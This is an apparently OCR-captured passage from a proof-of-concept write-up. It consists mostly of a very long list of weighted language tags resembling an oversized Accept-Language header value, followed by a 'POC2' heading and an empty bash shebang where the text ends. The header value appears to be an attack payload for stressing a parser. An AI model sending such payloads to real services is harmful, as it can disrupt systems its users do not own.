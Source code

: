crz;q=0.819, csa;q=0.846, csb;q=0.879, csc;q=0.154, csd;q=0.210, cse;q=0.456, csf;q=0.226, csg;q=0.235, csh;q=0.497, csi;q=0.878, csj;q=0.825, csk;q=0.758, csl;q=0.295, csm;q=0.451, csn;q=0.026, cso;q=0.728, csp;q=0.593, csq;q=0.585, csr;q=0.482, css;q=0.159, cst;q=0.971, csu;q=0.338, csv;q=0.439, csw;q=0.498, csx;q=0.206, csy;q=0.306, csz;q=0.147, cta;q=0.290, ctb;q=0.887, ctc;q=0.684, ctd;q=0.231, cte;q=0.572, ctf;q=0.887, ctg;q=0.120, cth;q=0.264, cti;q=0.127, ctj;q=0.280, ctk;q=0.477, ctl;q=0.146, ctm;q=0.328, ctn;q=0.512, cto;q=0.422, ctp;q=0.744, ctq;q=0.943, ctr;q=0.024, cts;q=0.142, ctt;q=0.122, ctu;q=0.140, ctv;q=0.464, ctw;q=0.980, ctx;q=0.499, cty;q=0.709, ctz;q=0.956, cua;q=0.234, cub;q=0.894, cuc;q=0.535, cud;q=0.448, cue;q=0.898, cuf;q=0.354, cug;q=0.265, cuh;q=0.232, cui;q=0.149, cuj;q=0.922, cuk;q=0.269, cul;q=0.674, cum;q=0.153, cun;q=0.020, cuo;q=0.117, cup;q=0.874, cuq;q=0.674, cur;q=0.514, cus;q=0.974, cut;q=0.603, cuu;q=0.666, cuv;q=0.998, cuw;q=0.390, cux;q=0.900, cuy;q=0.362, cuz;q=0.520, cva;q=0.655, cvb;q=0.167, cvc;q=0.152, cvd;q=0.018, cve;q=0.015, cvf;q=0.152, cvg;q=0.908, cvh;q=0.014, cvi;q=0.760, cvj;q=0.205, cvk;q=0.632, cvl;q=0.583, cvm;q=0.141, cvn;q=0.371, cvo;q=0.887, cvp;q=0.795, cvq;q=0.233, cvr;q=0.605, cvs;q=0.018, cvt;q=0.123, cvu;q=0.826, cvv;q=0.343, cvw;q=0.882, cvx;q=0.760, cvy;q=0.768, cvz;q=0.471, cwa;q=0.867, cwb;q=0.789, cwc;q=0.978, cwd;q=0.163, cwe;q=0.581, cwf;q=0.649, cwg;q=0.501, cwh;q=0.734, cwi;q=0.726, cwj;q=0.355, cwk;q=0.298, cwl;q=0.545, cwm;q=0.319, cwn;q=0.701, cwo;q=0.761, cwp;q=0.546, cwq;q=0.735, cwr;q=0.797, cws;q=0.826, cwt;q=0.792, cwu;q=0.225, cwv;q=0.846, cww;q=0.330, cwx;q=0.593, cwy;q=0.422, cwz;q=0.514, cxa;q=0.111, cxb;q=0.400, cxc;q=0.564, cxd;q=0.549, cxe;q=0.060, cxf;q=0.628, cxg;q=0.889, cxh;q=0.709, cxi;q=0.263, cxj;q=0.751'

POC2
----

    #!/bin/bash
